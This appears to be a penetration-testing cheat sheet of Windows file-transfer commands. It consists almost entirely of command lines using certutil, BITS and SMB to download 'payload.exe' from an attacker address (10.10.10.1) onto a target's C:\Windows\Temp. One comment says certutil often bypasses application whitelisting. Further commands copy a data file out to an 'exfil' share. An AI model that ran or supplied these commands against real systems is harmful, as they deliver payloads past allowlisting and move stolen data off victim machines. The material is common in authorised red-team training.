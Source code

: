 ## CertUtil Transfers

```cmd
:: Download file using certutil (often bypasses application whitelisting)
certutil -urlcache -split -f "http://10.10.10.1:8000/payload.exe" payload.exe

:: Alternative download method
certutil -urlcache -f "http://10.10.10.1:8000/payload.exe" payload.exe

:: Encode/decode for file transfer
:: On attacker machine: 
certutil -encode payload.exe payload.txt

:: On target machine:
certutil -decode payload.txt payload.exe
```

## BITS Transfers

```cmd
:: Start BITS transfer job
bitsadmin /transfer myJob /download /priority high "http://10.10.10.1:8000/payload.exe" "C:\Windows\Temp\payload.exe"

:: PowerShell BITS transfer
Start-BitsTransfer -Source "http://10.10.10.1:8000/payload.exe" -Destination "C:\Windows\Temp\payload.exe"

:: BITS transfer with authentication
Start-BitsTransfer -Source "http://10.10.10.1:8000/payload.exe" -Destination "C:\Windows\Temp\payload.exe" -Authentication NTLM -Credential $cred
```

## SMB Transfers

### Mount SMB Share
```cmd
:: Mount drive
net use Z: \\10.10.10.1\share /user:username password

:: Copy files
copy Z:\payload.exe C:\Windows\Temp\payload.exe
copy C:\Windows\Temp\data.txt Z:\exfil\
```

### PowerShell SMB Access
```powershell
# Copy from SMB share
Copy-Item -Path "\\10.10.10.1\share\payload.exe" -Destination "C:\Windows\Temp\payload.exe"

# Copy to SMB share
Copy-Item -Path "C:\Windows\Temp\data.txt" -Destination "\\10.10.10.1\share\exfil\"
```

